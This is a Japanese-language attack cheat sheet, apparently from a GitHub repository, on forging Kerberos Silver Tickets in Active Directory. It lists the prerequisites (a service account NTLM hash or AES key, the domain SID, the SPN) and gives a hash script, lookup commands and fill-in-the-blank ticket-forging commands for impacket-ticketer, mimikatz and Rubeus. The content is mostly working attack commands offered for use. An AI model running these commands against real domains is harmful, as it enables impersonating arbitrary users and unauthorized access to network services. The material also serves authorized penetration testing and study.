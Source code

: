 # Silver Tickets攻撃

`Silver Ticket攻撃`は、Active Directory (AD) 環境におけるサービスチケットの悪用を含む。この手法は、`サービスアカウントのNTLMハッシュを取得すること`に依存し、コンピュータアカウントなどのチケットを偽造するために使用される。この偽造されたチケットを使用することで、攻撃者はネットワーク上の特定のサービスにアクセスでき、任意のユーザーに偽装することができる([Pass The Ticket攻撃](https://github.com/namahano/Cheat-Sheet/blob/main/Active%20Directory/Kerberos/Pass%20The%20Ticket.md))。

## 攻撃に必要なもの

- サービスアカウントのRC4キー(NTLMハッシュ) or AESキー(128 bitまたは 256 bit)

  [NTLM Hash Generator](https://codebeautify.org/ntlm-hash-generator)

  スクリプトを使う

  ```python
  import sys
  import hashlib
  
  def calc_nt_hash(p):
      return hashlib.new('md4', p.encode('utf-16le')).hexdigest()
  
  if __name__ == '__main__':
      print(calc_nt_hash(sys.argv[1]))
  ```

- Domain

- DomainのSID

  ```
  impacket-lookupsid -hashes 'LMhash:NThash' '<DOMAIN>/<USERNAME>:<PASSWORD>@<DC_IP>'
  ```

- ServicePrincipalName

  PowerView

  ```
  Get-DomainUser -Identity <USERNAME> | select serviceprincipalname
  ```

  AD Module

  ```
  Get-ADUser -Filter {SamAccountName -eq "<USERNAME>" } -Properties ServicePrincipalNames
  Get-ADUser -Identity <USERNAME> -Properties ServicePrincipalName | select ServicePrincipalName
  ```

  `ServicePrincipalName` と `SID` はBloodHoundからも取得可能

# Ticketを取得

## Linux

with an NT hash

```
impacket-ticketer -nthash <NTLM_HASH> -domain-sid <DOMAIN_SID> -domain <DOMAIN> -spn <ServicePrincipalName> "<USERNAME>"
```

with an AES (128 or 256 bits) key

```
impacket-ticketer -aesKey <AesKey> -domain-sid <DOMAIN_SID> -domain <DOMAIN> -spn <ServicePrincipalName> "<USERNAME>"
```

## Windows

### mimikatz

with an NT hash

```
kerberos::golden /domain:<DOMAIN> /sid:<DOMAIN_SID> /rc4:<NTLM_HASH> /user:<USERNAME> /target:<Target> /service:<SPN>
```

with an AES (128 or 256 bits) key

```
# AES 128 key
kerberos::golden /domain:<DOMAIN> /sid:<DOMAIN_SID> /aes128:<Aes128_Key> /user:<USERNAME> /target:<Target> /service:<SPN>

# AES 256 key
kerberos::golden /domain:<DOMAIN> /sid:<DOMAIN_SID> /aes256:<Aes256_Key> /user:<USERNAME> /target:<Target> /service:<SPN>
```
### Rubeus

with an NT hash

```
Rubeus.exe silver /domain:<DOMAIN> /sid:<DOMAIN_SID> /rc4:<NTLM_HASH> /user:<USERNAME> /service:<SPN> /nowrap
```

with an AES (128 or 256 bits) key

```
# AES 128 key
Rubeus.exe silver /domain:<DOMAIN> /sid:<DOMAIN_SID> /aes128:<Aes128_Key> /user:<USERNAME> /service:<SPN> /nowrap

# AES 256 key
Rubeus.exe silver /domain:<DOMAIN> /sid:<DOMAIN_SID> /aes256:<Aes256_Key> /user:<USERNAME> /service:<SPN> /nowrap
```


